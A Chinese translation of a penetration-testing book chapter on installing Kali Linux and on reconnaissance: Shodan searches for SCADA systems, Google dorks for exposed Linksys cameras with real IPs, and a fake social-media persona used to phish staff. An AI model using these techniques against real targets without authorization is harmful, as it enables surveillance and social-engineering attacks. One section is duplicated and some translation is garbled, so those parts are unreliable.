可以通过几种不同的方式下载 Kali Linux。获取 Kali Linux 最流行的方法之一是下载 ISO 镜像。ISO 镜像提供 32 位和 64 位版本。

如果你计划在虚拟机（如 VMware）上使用 Kali Linux，有一个 VM 镜像。下载 VM 镜像的优势是它预装了 VMware 工具。VM 镜像是一个支持物理地址扩展（Physical Address Extension，称为 PAE）的 32 位镜像。理论上讲，PAE 内核允许你访问比传统 32 位操作系统更多的内存。操作系统领域有一些知名人物对 PAE 内核的用性持有争议。然而，本书作者建议如果你计划使用虚拟环境，请使用 Kali Linux 的 VM 镜像。

## 从外部介质运行 Kali Linux

可以通过从外部介质源（如 USB 驱动器或 DVD）访问运行 Kali Linux，而无需在硬盘上安装软件。这种方法很容易启用；但在性能和操作上存在问题。Kali Linux 必须从远程源加载程序会影响性能，且某些应用程序或硬件设置可能无法正常运行。使用只读介质不允许保存可能让 Kali Linux 正常运行所需的自定义设置。强烈建议将 Kali Linux 安装在硬盘上。

## 渗透测试与设置

### 安装 Kali Linux

在计算机上安装 Kali Linux 非常简单，与其他安装操作系统类似。你需要兼容的计算机硬件。Kali 支持 i386、amd64 和 ARM（包括 armhf 和 arm64）平台。硬件要求如下列表所示，尽管我们建议至少超过最低要求三倍。通常情况下，如果 Kali Linux 拥有更多内存并安装在较新的机器上，其性能会更好。下载 Kali Linux并将 ISO 刻录到 DVD，或准备一个带有 Kali Linux Live 的 USB 盘作为安装媒介。如果你的电脑没有 DVD 驱动器或 USB 端口，请查看 Kali Linux 网络安装。

以下是最小安装要求的列表：
- 安装 Kali Linux 至少需要 8 GB 磁盘空间。
- 对于 i386 和 amd64 架构，至少 512MB RAM。
- CD-DVD 驱动器 / USB 支持。
- 安装前需要连接互联网。这非常重要，否则在安装期间无法配置和访问仓库。

1. 启动 Kali 时，你将看到引导安装界面。你可以选择想要执行的安装类型（基于图形或基于文本）。

2. 选择本地语言偏好、国家和键盘偏好。

3. 为 Kali Linux 主机选择主机名。默认主机名是 Kali。


## 渗透测试与设置

4. 选择密码。简单的密码可能无效，因此请选择一个具有一定复杂度的密码。


设置用户和密码

你需要为 'root'（系统管理员账户）设置一个密码。拥有 root 权限的恶意用户或不合格的用户可能会导致灾难性的结果，因此你应该注意选择一个不容易被猜中的的 root 密码。它不应该是字典中找到的单词，也不应该是容易与你相关联的单词。一个良好的密码应该包含字母、数字和标点符号的混合，并应该定期更改。root 用户不应有空密码，如果你将其留空，root 账户将被禁用，并且系统的初始用户账户将获得使用 'sudo' 命令成为 root 的权限。

注意，在输入密码时将无法显示内容。
root 密码：
请再次输入相同的 root 密码以验证你的输入是否正确。
重新输入密码以验证：


5. 下一个提示询问你的时区。根据需要进行修改并选择继续。下一个截图显示了选择东部标准。


配置时钟
如果列表中没有列所需的时区，请返回“选择语言”步骤并选择一个使用所需时区的国家（你居住或所在的国家）。
选择你的时区：
- 东部 (Eastern)
- 中部 (Central)
- 山地山区 (Mountain)
- 太平洋 (Pacific)
- 阿拉斯斯加 (Alaska)
- 夏威夷 (Hawaii)
- 亚利桑那 (Arizona)
- 东印第安纳州 (East Indiana)
- 萨摩亚 (Samoa)


分区磁盘
安装程序可以引导你对磁盘进行分区（使用不同的标准方案）；或者，如果你愿意，也可以手动进行。通过引导式分区，你稍后仍有机会查看并自定义结果。
如果你选择对整块磁盘进行引导式分区，接下来你将被要求指定使用哪块磁盘。
分区方法：

| 引导式 - 使用整个磁盘 |
| 引导式 - 使用整个磁盘并设置 LVM |
| 引导式 - 使用整个磁盘并设置加密 LVM |

截图：返回 继续

## 渗透测试与设置

6. 最后一个窗口显示了安装设置的审查。如果一切看起来都正确，请选择“是”以继续过程，如下截图所示：



7. Kali Linux 使用中央存储库来发布软件包。如果你想安装这些软件包，你需要使用网络镜像。软件包通过 HTTP 协议下载。如果你的网络使用代理服务器，你还需要为你的网络配置代理设置。

# KALI LINUX

配置包管理器

网络镜像可用于补充光光盘中包含的软件。这也可以使新版本的软件可用。

使用网络镜像？

- 否
- 是



8. Kali 将提示安装 GRUB。GRUB 是一个多引导加载程序，赋予用户选择并启动多个操作系统的能力。在大多数情况下，你应该选择安装 GRUB。如果你正在配置系统进行双系统，你将希望确保 GRUB 识别其他操作系统，以便为用户提供启动备用操作系统的选项。如果它没有检测到其他操作系统，机器将自动启动到 Kali Linux。

## 渗透测试与设置



9. 恭喜！你已经完成了 Kali Linux 的安装。你需要移除所有媒体（物理或虚拟）并选择“继续”以重启你的系统。



## Kali Linux 和虚拟机镜像首次运行

在某些 Kali Linux 安装中，将被要求设置 root 密码。当 Kali Linux 启动时，输入 root 用户名和你选择的密码。如果你下载了 Kali 的虚拟机镜像，你需要 root 密码。默认用户名是 root，密码是 toor。



## Kali 工具集概览

Kali Linux 提供了许多为渗透测试设计的自定义工具。工具如下截图所示的下拉菜单分为以下几组：

| 应用 (Applications) | 位置 (Places) | 5 月 15 日星期五，凌晨 2:33 |
| :--- | :--- | :--- |
| 附件 (Accessories) | > | |
| 电子 (Electronics) | > | |
| 图形 (Graphics) | > | |
| 互联网 (Internet) | > | 前 10 大安全工具 |
| Kali Linux | > | 信息收集 (Information Gathering) |
| 办公 (Office) | > | 漏洞分析 (Vulnerability Analysis) |
| 编程 (Programming) | > | Web 应用 (Web Applications) |
| 音视频视频 (Sound & Video) | > | 密码攻击 (Password Attacks) |
| 系统工具 (System Tools) | > | 无线攻击 (Wireless Attacks) |
| | > | 漏洞利用 (Exploitation Tools) |
| | > | 嗅探/欺骗 (Sniffing/Spoofing) |
| | > | 维持访问 (Maintaining Access) |
| | > | 反向工程 (Reverse Engineering) |
| | > | 压力测试 (Stress Testing) |
| | > | 硬件破解 (Hardware Hacking) |
| | > | 取证分析 (Forensics) |
| | > | 报告工具 (Reporting Tools) |
| | > | 系统服务 (System Services) |

## 渗透测试与设置

- **信息收集 (Information Gathering)**：这些是用于收集目标系统数据的工具。
- **漏洞分析 (Vulnerability Analysis)**：这些工具通常用于评估系统漏洞。
- **Web 应用 (Web Applications)**：这些是用于 Web 服务器漏洞的工具。
- **密码攻击 (Password Attacks)**：该部分主要涉及身份验证的离线计算。
- **无线攻击 (Wireless Attacks)**：这些是用于利用无线协议漏洞的工具。
- **漏洞利用 (Exploitation Tools)**：这些是用于利用系统漏洞的工具。
- **嗅探/欺骗 (Sniffing/Spoofing)**：这些是用于数据包捕获、数据包操纵、数据包制作和网络欺骗的工具。
- **维持访问 (Maintaining Access)**：这些工具用于在目标系统或网络中建立脚点。
- **反向工程 (Reverse Engineering)**：这些用于禁用可执行文件和调试程序的工具。反向工程的目的是分析程序是如何开发的，以便进行复制、修改或开发出其他程序。反向工程也用于恶意软件分析。
- **压力测试 (Stress Testing)**：这些工具用于评估系统可以承受多少数据。不想要的结果可以通过过载系统导致控制网络通信设备关闭（即拒绝服务攻击）来获得。
- **硬件破解 (Hardware Hacking)**：本节包含 Android 工具（可归类为移动端）以及用于编程和控制其他电子设备的 Arduino 工具。
- **取证分析 (Forensics)**：这些工具用于监控和分析网络流量。
- **报告工具 (Reporting Tools)**：这些是在渗透练习期间传递信息的方法。
- **系统服务 (System Services)**：在这里你可以启用和禁用 Kali 服务。服务分为 BeEEF、Dradis、HTTP、Metasploit、MySQL 和 SSH。

本章作为 Web 渗透测试的介绍以及 Kali Linux 设置的概述。我们首先定义了执行渗透测试服务的最佳实践，包括定义风险和各种服务之间的差异。结论是理解渗透测试与其他安全服务的区别，如何妥善界定服务范围以及执行服务的最佳方法。预先与潜在客户建立正确的预期将有助于筛选机会，并简化开发可接受的工作范围。

本章继续提供了 Kali Linux 的概览，包括如何下载你所需的 Kali Linux 版本、执行安装的方法以及可用工具集的简要概述。下一章将介绍如何对目标进行信息收集。这是交付渗透测试服务的第一步也是最关键的一步。


## 2 侦察

**侦察**（Renaissance）一词的定义源于军事作战策略，即探索友军占领区域以外的区域以获取有关敌的信息供未来分析或攻击。计算机系统的侦察在本质上类似的，这意味着渗透测试人员或黑客会在发起攻击之前，尝试尽可能多了解目标环境和系统特征。这也被称为建立目标的“足纹”（Footprint）。侦察通常是被动性的，并且在许多情况下，只要你没有与未经授权的系统完成三次握手，执行这些操作通常是不违法的（然而，我们不是律师，无法提供法律建议）。

侦察的示例包括：从 Google 等公共来源研究目标、监控员工活动以了解操作模式，以及扫描网络或系统以收集信息（例如制造类型、操作系统和开放的通信端口）。收集的关于目标的信息越多，就越有可能识别出实现渗透目标最简单、最快的方法，以及规避现有安全防护的方法。此外，警报目标极可能导致某些攻击由于准备攻击的反应而关闭。Kali 的官方口号最好地说明了这一点：

> “你越保持安静，你听到的就越多”

侦察服务应该包含详尽的文档，因为发现的数据可能在渗透执行的后续阶段变得相关。客户还会想知道特定数据是如何获取的，并要求引用资源。例如，使用了什么工具获取数据，或者哪些面向公众的资源；例如，为了获取数据提交给 Google 的特定搜索查询。告诉客户“你已获得目标”是不够的，因为渗透测试的目的是识别弱点以便未来修复。

### 侦察目标

- 目标背景：目标的业务重点是什么？
- 目标关联人员：业务合作伙伴、供应商和客户是谁？
- 目标对安全的投入：是否公布了安全政策？潜在的安全投入如何，或者用户的安全意识如何？
- 目标的业务和安全政策：业务是如何运作的？操作中有哪些潜在弱点？
- 目标人员：那里工作的是什么类型的人？他们如何成为你攻击的资产？
- 定义目标：哪些是容易攻克的的目标？哪些应该应该避开？
- 目标网络：人员和设备在网络上如何通信？
- 目标防御：实施了什么种安全措施？位于哪里？
- 目标技术：邮件、网络流量、信息存储、身份验证等使用了哪些技术？它们是否有漏洞？

Kali Linux 包含了大量的专门用于侦察工作的**信息收集**工具目录。要涵盖所有提供的信息收集工具和方法，可以写成另一本书。本章将重点关注各种 Web 应用程序侦察主题，并介绍互联网上找到的最佳工具以及 Kali Linux 提供的工具。

### 初始研究

侦察应该从尽可能多地了解与目标相关的人和业务开始*孙子*在《兵法》中被誉为“知彼知己”这句话。作为一名渗透测试人员，你需要了解你的目标。如果你的目标恰好是一个网站，你应该查看该网站的所有方面。这将让你更好地理解该网站是如何维护和运行的。优秀的侦察能带来更多可能性。

公共来源上提供的信息之多得令人惊恐。我们发现了一些难以想象的内容，如机密文件、密码、漏洞报告、不雅的照片以及安全摄像头的访问权限。**许多渗透测试项目的目标都是从利用公共来源的信息开始的。** 以下是从公共来源收集信息的一些起点。

### 公司网站

从目标网站可以获得大量有价值的信息。大多数公司网站都会列出其执行团队、公众人物以及来自招聘和人力资源部门的联系人。这些可以作为其他搜索工作和社交工程攻击的目标。

通过查看其他哪些公司被列为合作伙伴、当前的职位、业务信息和安全政策，可以获得更有价值的信息。对高价值合作伙伴的侦察可能与主要目标一样重要，因为合作伙伴可能提供获取情报的新来源。例如，攻破管理目标总部帮助台的受约资源。

Robots.txt 文件是公开的，网站上的它向 Web 机器人（也称为搜索引擎爬虫）提供指令，根据机器人排除协议（Robots Exclusion Protocol）哪些是可以哪些是不可能的。Disallow: / 语句告诉浏览器不要访问源；然而，研究人员可以根据目标希望向公众披露的信息来忽略 Disallow 指令。

要查看，在目标网站的根目录下找到 Robots.txt 文件。例如，在 Facebook 上添加 Robots.txt 文件如下所示：

```
https://www.facebook.com/robots.txt

### 注意：如果你想爬取 Facebook，可以
### 在处联系我们：http://www.facebook.com/apps/site_scraping_tos.php
### 以申请白名单。我们的通用条款请访问
### http://www.facebook.com/apps/site_scraping_tos.php

User-agent: baidususpider
Disallow: /ac.php
Disallow: /ae.php
Disallow: /ajsx/
Disallow: /album.php
Disallow: /ap.php
Disallow: /autologin.php
Disallow: /checkpoint/
Disallow: /feeds/
Disallow: /l.php
Disallow: /o.php
Disallow: /p.php
Disallow: /photo.php
Disallow: /comments.php
Disallow: /search.php
```

### Web 历史

从目标网站可以获得大量有价值的信息。大多数公司网站都会列出其执行团队、公众人物以及来自招聘和人力资源部门的联系人。这些可以作为其他搜索工作和社交工程攻击的目标。

通过查看其他哪些公司被列为合作伙伴、当前的职位、业务信息和安全政策，可以获得更有价值的信息。对高价值合作伙伴的侦察可能与主要目标一样重要，因为合作伙伴可能提供获取情报的新来源。例如，攻破管理目标总部帮助台的受约资源。

Robots.txt 文件是公开的，网站上的它向 Web 机器人（也称为搜索引擎爬虫）提供指令，根据机器人排除协议（Robots Exclusion Protocol）哪些是可以哪些是不可能的。Disallow: / 语句告诉浏览器不要访问源；然而，研究人员可以根据目标希望向公众披露的信息来忽略 Disallow 指令。

要查看，在目标网站的根目录下找到 Robots.txt 文件。例如，在 Facebook 上添加 Robots.txt 文件如下所示：

```
https://www.facebook.com/robots.txt

### 注意：如果你想爬取 Facebook，可以
### 在处联系我们：http://www.facebook.com/apps/site_scraping_tos.php
### 以申请白名单。我们的通用条款请访问
### http://www.facebook.com/apps/site_scraping_tos.php

User-agent: baidususpider
Disallow: /ac.php
Disallow: /ae.php
Disallow: /ajsx/
Disallow: /album.php
Disallow: /ap.php
Disallow: /autologin.php
Disallow: /checkpoint/
Disallow: /feeds/
Disallow: /l.php
Disallow: /o.php
Disallow: /p.php
Disallow: /photo.php
Disallow: /comments.php
Disallow: /search.php
```

### 侦察

作为渗透测试人员，这是一个非常有用的工具，因为它不会在你的目标上留下侦察痕迹。目标从未被该工具接触过。所有信息已在线存档在 Wayback Machine。接下来的两张截图显示了 lancope.com 从 2002 年到 2013 年的情况：

### 区域互联网注册机构 (RIRs)

RIR 是在世界特定区域管理分配和注册 IP 资源的组织。有五个主要的 RIR：美国、加拿大和加勒比地区的部分可以在 www.arin.net 找到。你可以获取如 Lancope 等目标的信息，如下：

| 组织 | |
|---|---|
| 名称 | Lancope |
| 句 | LANCOP |
| 街道 | 3155 Royal Drive Building 100 |
| 城市 | Alpharetta |
| 州/省 | GA |
| 邮政编码 | 30022 |
| 国家 | US |
| 注册日期 | 2002-06-21 |
| 最后更新 | 2011-09-24 |
| 注释 | |
| RESTful 链接 | http://whois.arin.net/rest/org/LANCOP |
| 相关 | 相关网络。 |
| 相关的 | 相关的自治系统编号。 |
| 相关的 | 相关的 POC 记录。 |


## 电子数据收集、分析与检索 (EDGAR)

EDGAR 数据库包含了自 1994 年以来公司的注册声明、定期报告以及其他形式的信息。美国公司根据法律要求，必须提交这些文件，且所有信息均公开可用。以下两张截图显示了在搜索 Lancope 时发现的公共文档：


| 提交日期 | 提交日期变更 |
| :--- | :--- |
| 2008-04-25 | 2008-04-26 |
| 接受 | 生效日期 |
| 2008-04-30 12:50:12 | 2008-04-25 |
| 文档 | |
| 1 | |

## 文档格式文件

| 序号 | 说明 |
| :--- | :--- |
| 1 | 自动生成的纸质文档 扫描纸质文档 提交文本文件 |

LANCOPE INC (申报者) Cik: 0001178004 (查看所有公司申报文件)
IRS.: 0000000000
类型: EDGAR | 法案: 34 | 编号: 021-45780 | 机构号: 08045849

| 表格 D | OMB | OMB |
| :--- | :--- | :--- |
| | 美国 | OMB 编号: 3215-0976 |
| 证券交易委员会 | 有期至：2008年4月30日 | 每份表格的平均负担工时 |
| 华盛顿特区 20549 | | 16.00 |
| 08045849 | | 仅供 SEC 使用 |

发行人名称：[如果这是修订案且更改了名称或地址，请勾选此处。]
普通股发行 [返回]
根据规则申报（勾选框）：[规则 504][规则 505][规则 506] [第4(6) 节] [JOE 章节]
申报类型：[新增] [修订]

### A. 基础识别

### 1. 输入下方请求的信息
发行人名称（名称和街道、城市、州、邮编）

Lancope, Inc.
执行官地址: 电话号码（包括区号）
3650 Brookside P Pkwy, Brookside Concourse 100, Suite 400, 770-225-6580
Alphabetra, GA 30022

### 社交媒体资源

社交媒体无处不在，且在大多数情况下是公开访问的。大多数人都有 Facebook、LinkedIn、博客或其他形式的云账户，其中包含有价值的信息。这些信息可以作为从目标当前或之前的员工处获取社会工程情报的手段。一个例子是搜索 Glassdoor.com，根据反馈识别出心不满的前任员工。

许多人发现了诸如 Maltego（在 Kali Linux 中）之类的网络资源，这些工具可以梳理社交媒体、公共记录和招聘网站，并根据有限的信息（如姓名）对个人进行指纹识别。研究人员可以收集此类信息，如个人生活过的任何地方、开展业务的地方、社交的人员、特殊兴趣、喜欢的运动队以及其他对未来研究和社会工程学攻击的有用数据。

### 信任

大多数人天生容易信任，并假设发布在公共来源上的信息是真实的。为了测试这一概念，本书的作者通过社交媒体创建了一个虚假人物，并伪装成目标公司的新员工。这个虚假人物与我们目标的同事建立朋友，发布虚假的节日卡片，这些卡片链接到一个旨在攻破有漏洞浏览器的 BeEF 系统（使用 BeEF 将在书后部分介绍），并从受侵害的系统中捕获敏感信息。我们能够绘制出整个组织架构，获取网络信息，甚至在没有内部电子邮件或电话号码的情况下让硬件寄到这里。我们的虚假人物 Emily Williams 竟然收到了录用通知、获得了内部信息，并参加了目标公司举办的活动。信息就是力量，人们会将信息交给一个看起来值得信任的请求者。

关于此项目的更多信息可以访问这里：http://www.thesecurityblogger.com/?p=1903

### 招聘信息

招聘信息包含了大量关于目标环境的知识。职位列表可以提供有关安装了什么类型的系统、谁在管理、员工规模如何以及员工技能水平的细节。人力资源代表通常热衷于与潜在新员工分享信息，这可以作为获取内部信息的途径。一个例子是针对 Oracle 开发人员的招聘公告，以了解硬件、Oracle 版本、现任和前任管理员的姓名、现有的运营问题、安全漏洞以及访问此类系统的方法，例如询问“管理员可以居家办公吗？他们是如何访问系统的？”

另一个审查途径是查看热门招聘网站上某某职位的预期薪资、福利和离职率。这些趋势可能会揭示新的攻击向量。Glassdoor 是这类数据的流行来源示例。

### 地位置

目标在网络安全方面的投入通常可以根据物理安全水平来确定。人们会假设，一个带有围栏和武装警卫的建筑在网络安全方面的投入会高于位于公共建筑内的目标。在线地图源（如 Google 地图）可以帮助识别目标所在地。其他感兴趣的区域包括识别渗透人员可以从何处移动离开目标，扫描无线网络以及可能的绕过控制的方法（例如通过服装和胸牌来获取物理访问）。

### Shodan

Shodan 是一种搜索引擎，可以识别特定的设备，如计算机、路由器、服务器，使用多种过滤器（例如 banner 中的元数据）。例如，你可以搜索特定的系统，如运行 IOS 版本 15.0 的 Cisco 3850。

第 2 章

以下示例搜索任何理论上不应接入互联网的 SCADA 系统，但 Shodan 可以显示这并非事实。SCADA 系统控制着电力管理和水处理等[](img/df1fdcde66c92c1fef83bd651dd5ffe3_60_png)

| 服务 | | |
| :--- | :--- | :--- |
| HTTP | 135 | HTTP/1.0 |
| Net | 44 | Date: Thu, 28 Feb 2013 17:57:16 GMT |
| SMB | 25 | Server: Boa/93.15 |
| FTP | 12 | Connection: close |
| HTTP Alternate | | WWW-Authenticate: Basic realm="webSCADA*"Content-Type: text/html |

| 国家 | | |
| :--- | :--- | :--- |
| 美国 | 69 | 401 Unauthorized |
| 加拿大 | 41 | 65.98.173.75 |
| 芬兰 | 18 | Conway Group, LLC |
| 瑞典 | 13 | Added on 28.02.2013 |
| 丹麦 | 12 | Palm Desert 70-78-114-148.business.telia.com |

| 城市 | | |
| :--- | :--- | :--- |
| 加加 | 11 | NetBIOS Response |
| 休斯顿 | 5 | Servername: SCADA <0x0> |
| ylvan湖 | 5 | WORKGROUP <0x0> |
| 本溪 | 5 | SCADA <0x1> |
| 斯德哥尔摩 | 5 | WORKGROUP <0x1> |
| | | WORKGROUP <0x1> |

| 组织 | | |
| :--- | :--- | :--- |
| Telus Communications | 13 | 401 Authorization |
| Nucleus Information... | 6 | 142.59.128.96 |
| Telefonica de Espana | 5 | Windows XP |
| Comcast Business... | 4 | AGT |
| Hetzner Online AG | 4 | Added on 28.02.2013 |
| 加加 | | d010-137-225.abhsla.telia.com |
| | | HTTP/1.0 401 Authorization |

### Google hacking

Google hacking 是最常见的搜索引擎侦察形式。Google hacking 使用 Google 搜索高级操作在结果中定位特定的字符串。搜索过滤器可以锁定特定版本的应用程序，或者通过 `entitle:"index of"` 操作识别包含敏感  日志文件。以下截图演示了使用 Google 搜索查找可用的 Linksys 摄像头。第一张显示了执行命令后的示例结果。最后一张截图显示了使用此技术可以找到摄像头[](img/df1fdcde66c92c1fef83bd651dd5ffe3_61_0.png)

| Linksys Wireless-G Internet Video Camera | | | |
| :--- | :--- | :--- |
| 92.71.245.81:1027/main.cgi?next_file=index.htm | Linksys Ver. 2.12, Home | Video | Setup | Linksys Web | Help | Exit |
| Linksys Wireless-G PTZ Internet Camera with Audio | mam-camera.dns.alias.net/main.cgi?next_file=index.htm | WWC200. Wireless-G PTZ Internet Camera with Audio, Home| View Video| Setup| Linksys Web Exit. Connected User: 0. | Copyright 2007 Cisco ... |
| Linksys Web Camera | 177.142.46.3:1028/main.cgi?next_file=index.htm | Linksys Ver. 2.13, Home | Video View | Setup | Linksys Web | Help | Exit |
| Linksys Wireless-G Internet Video Camera | 72.250.149.1024/main.cgi?next_file=index.htm | Linksys Ver. 2.11, Home | Video | Setup | Linksys Web | Help | Exit | You visited this page 3 times. Last visit: 3/19/13 |
| Linksys Wireless-G PTZ Internet Camera with Audio | 213.67.110.1024/main.cgi?next_file=main.htm | WWC200. Wireless-G PTZ Internet Camera with Audio, Home| View Video, Setup, | Linksys Web, Exit. Image Resolution, 640*480, 320*240, ... |
| Linksys Wireless-G PTZ Internet Camera with Audio | 66.11.106.28:8181/main.cgi?next_file=main.htm | WWC200. Wireless-G PTZ Internet Camera with Audio, Home| View Video| Setup
Linksys Webt. Image Resolution, 640*480, 320*240, Northwest ...nYou visited this page 3 times. Last visit: 3/19/13 |


## 第 2 章

| LINKSYS Cisco Systems, Inc. 分部 | | WCS80N |
| 无线-N 家庭监控摄像头 | 首页 | 观看视频 | 设置 | Linksys 网页 | 帮助 | 退出 |



以下是一些示例查询语句：

- 识别敏感文档：intext: classified top secret
- 识别 Linksys 摄像头管理 GUI（注意：你可能不会喜欢你发现的内容）：inurl:main.cgi
- 识别 Nessus 报告以寻找漏洞系统：inurl:NESSUSXXXXXXX

关于 Google 黑客攻击（Google hacking）的更多信息，请查看由 Johnny Long 编写的一本非常好的书《渗透测试者的攻击指南》（Hacking for Penetration Testers），以及他的网站 http://johnny.ihackstuff.com。

## Google 黑客攻击数据库

Google 黑客攻击数据库（GHDB）由 Hackers For Charity（http://www.hackersforcharity.org/）的 Johnny Long 创建，是查询语句的权威来源。针对用户名、密码、漏洞系统和利用程序的搜索已被黑客爱好者捕获并分类。这些对 Google 搜索进行分类的爱好者被形象地称为 Google dorks（Google 狗术）。

要访问 GHDB，请访问 http://www.exploit-db.com/google-dorks/
你将在网页上看到列出的最新 GHDB 查询。你可以自己点击任何一个查询语句。


你将在页面底部找到已保存的不同搜索类别。在以下示例中，我们滚动到“漏洞文件”（Vulnerable Files）类别，并选择“ionCube Loader Wizard”查询。



[ 46 ]

## 第 2 章



我们可以选择查询语句，它将带我们进入 Google 并执行相同的查询语句。



[ 47 ]

### 侦察

前面的示例显示 Google 找到了一些结果。ionCube Loader 显然没有配置或配置错误。ionCube Loader 实际上是一款优秀的软件，它可以保护用 PHP 编写的软件免受未经授权的计算机查看或更改。然而，在这种情况下，管理员在没有任何任何配置的情况下运行了默认向导。

